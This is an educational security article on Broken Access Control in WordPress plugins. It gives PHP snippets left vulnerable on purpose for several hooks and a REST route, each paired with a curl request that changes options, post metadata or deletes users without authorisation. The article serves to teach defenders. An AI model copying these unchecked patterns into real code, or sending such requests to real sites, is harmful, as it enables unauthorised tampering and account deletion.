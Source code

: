 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against Broken Access Control"
  href="/wordpress/securing-code/broken-access-control/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.